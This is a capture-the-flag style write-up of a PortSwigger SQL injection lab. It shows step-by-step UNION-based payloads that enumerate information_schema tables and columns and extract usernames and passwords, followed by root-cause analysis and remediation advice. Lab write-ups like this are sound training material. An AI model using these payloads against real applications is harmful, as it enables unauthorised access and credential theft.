


## Lab-05: SQL Injection Attack, Listing the Database Contents on Non-Oracle Databases

# Lab Information
- **Platform:** PortSwigger Web Security Academy
- **Category:** SQL Injection
- **Difficulty:** Practitioner
- **Status:** Solved

# Objective
Perform a UNION based SQL injection attack to enumerate the databases own metadata table and column names, then use that information to retrieve sensitive data from a table that isn't normally exposed by the application, specifically a table holding usernames and passwords.

# Vulnerability
The applications product category filter builds its SQL query by directly concatenating the "category" URL parameter into the statement, without sanitization or parameterization. The backend query looks like this 
    SELECT * FROM products WHERE category = 'Gifts' AND released = 1
    
Because user input is placed inside the query, an attacker can use a UNION attack not only to retrieve data from known tables, but also to query the databases information schema, which lists every table and column that have. This lets an attacker discover and extract data from tables they were never meant to access.

# Methodology
1. Accessed the lab and navigated to the Gifts page. Tested the category parameter with a single quote (') to confirm the injection point.
2. Determined the number of columns using ORDER BY:
- 'ORDER BY 1--  → 200 OK
- 'ORDER BY 2--  → 200 OK
- 'ORDER BY 3--  → Internal server error → confirms the query returns exactly 2 columns.
3. Listed all tables in the database:
- 'UNION SELECT table_name,NULL FROM information_schema.tables--  → revealed the full table list and confirmed the database is PostgreSQL. Identified a table named users_<xxxx> as the target.
4. Listed the columns of that table:
   'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_<random>'-- → revealed columns username_<random> and password_<random>.
5. Extracted the actual credentials:
   'UNION SELECT username_<xxxx>,password_<xxxx> FROM users_<random>-- → returned all usernames and passwords, including the administrator's.
6. Logged in as administrator using the extracted password, and you see the lab was marked as solved.

# Evidence

# Root Cause
User input is concatenated directly into the SQL query as a string, with no restriction on which tables or views can be queried through the injected "UNION SELECT". This allows an attacker to read the databases own metadata known as information_schema and then pivot to extracting data from any table the database user can access, including tables never intended to be reachable from this part of the application.

# Remediation
- Use parameterized queries/prepared statements so user input is always treated as data, never as SQL query.
- Apply least privileges to the database account used by the application, it should not have read access to "information_schema" or to tables unrelated to its function.
- Avoid exposing raw database query output directly to users.
- Disable detailed database error messages in production.

# Key Learnings
- "information_schema.tables" and "information_schema.columns" let an attacker enumerate the entire database structure without any prior knowledge of table or column names.
- Concatenating multiple values into a single output column with "CONCAT()" or string concatenation operators, which is a useful technique when the result set has fewer columns than the data you need to extract.
- A UNION injection point is not limited to the applications own tables, it can be expose any table or view the underlying database user has permission to read, which is why database level access control matters as much as query sanitization.
